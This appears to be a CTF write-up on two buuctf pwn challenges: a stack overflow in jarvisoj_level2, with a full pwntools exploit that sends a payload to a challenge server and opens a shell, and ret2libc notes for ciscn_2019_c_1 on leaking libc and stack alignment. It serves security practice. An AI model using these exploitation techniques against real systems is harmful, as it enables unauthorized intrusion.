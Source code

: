 # Stack overflow

## 1. jarvisoj_level2

From: buuctf

click [here](../PwnFile/level2) to download.

We can easily find the **binsh_addr** and **system_call_address**.

It's an easy problem, but there's something new while using **gdb** to find the offset from buffer to *ebp*.

> When you try to set breakpoint, you may get the error like this:
>
> [Attaching after Thread 0xf7fc2400 (LWP 10853) vfork to child process 10856]
> 
> [New inferior 2 (process 10856)]
> 
> [Thread debugging using libthread_db enabled]
> 
> Using host libthread_db library "/usr/lib/libthread_db.so.1".
> 
> [Detaching vfork parent process 10853 after child exec]
> 
> [Inferior 1 (process 10853) detached]
> 
> process 10856 is executing new program: /usr/bin/bash
> 
> Warning:
>
> Cannot insert breakpoint 2.
>
> Cannot access memory at address 0x8048475

You need to use **set follow-fork-mode parent** command to continue. 

There's nothing new about this.

Exp:
```python
from pwn import *

# sh = process('./level2')
sh = remote('node4.buuoj.cn', 25873)

binsh_addr = 0x804a024
target = 0x804849e
offset = 0xffffcb78 - 0xffffcaf0 + 4

payload = flat([cyclic(offset), target, binsh_addr])
sh.sendlineafter(b'Input:', payload)
sh.interactive()
```

## 2. ciscn_2019_c_1

From: buuctf

click [here](../PwnFile/ciscn_2019_c_1) to download.

It's type of **ret2libc**.

I think only two questions need to pay attention.

1. leak libc

The libc functions' address often have a length of **0x6** at 64bits machines. But when we use **puts** to leak the address, it stops at '\x00', so it only puts out the little six bytes(little-endian).

Otherwise we need to use `sh.recv(6).ljust(0x8, b'\x00')` instead of `sh.recv(8)`

2. The environment is Ubuntu18, and all versions after that should follow the **Stack Alignment**. That means we need to add a *ret* to make system_addr align to 0x10.

More details see [here](https://www.cnblogs.com/ZIKH26/articles/15996874.html).

And [here](../Shellcode/ciscn.py) are exp.
